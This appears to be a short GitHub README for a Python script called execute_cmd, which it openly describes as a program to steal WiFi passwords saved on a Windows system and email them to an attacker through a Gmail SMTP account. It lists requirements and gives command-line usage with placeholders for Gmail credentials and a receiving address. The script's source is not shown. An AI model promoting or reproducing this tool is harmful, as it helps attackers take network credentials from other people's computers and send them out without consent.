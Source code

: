 # execute_cmd
Simple program to steal and email WiFi passwords saved on a Windows system to an attacker.

It uses Gmail as a default SMTP Server, therefore, it requires a gmail account.

Requirements:

[+]  Python 2

[+]  Scapy 2.2 and above (pip install scapy)

Usage:

python execute_cmd.py -u [Gmail username] -p [Gmail password] -e [Email address to receive report]

python3 execute_cmd.py -u [Gmail username] -p [Gmail password] -e [Email address to receive report]
